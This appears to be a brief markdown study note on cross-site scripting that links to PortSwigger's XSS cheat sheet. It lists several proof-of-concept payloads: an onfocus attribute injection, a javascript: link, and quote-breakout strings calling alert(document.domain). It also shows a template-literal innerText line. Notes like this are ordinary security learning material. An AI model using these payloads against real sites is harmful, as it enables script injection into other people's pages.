 Cheat sheet 

[https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#file-upload-attacks](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#file-upload-attacks)

`autofocus onfocus=alert(document.domain) x=`

`<a href="javascript:alert(document.domain)">`

```
'-alert(document.domain)-'
';alert(document.domain)//
```

`document.getElementById('message').innerText = `Welcome, ${user.displayName}.`;`

`${...}`

[DOM](DOM.md)
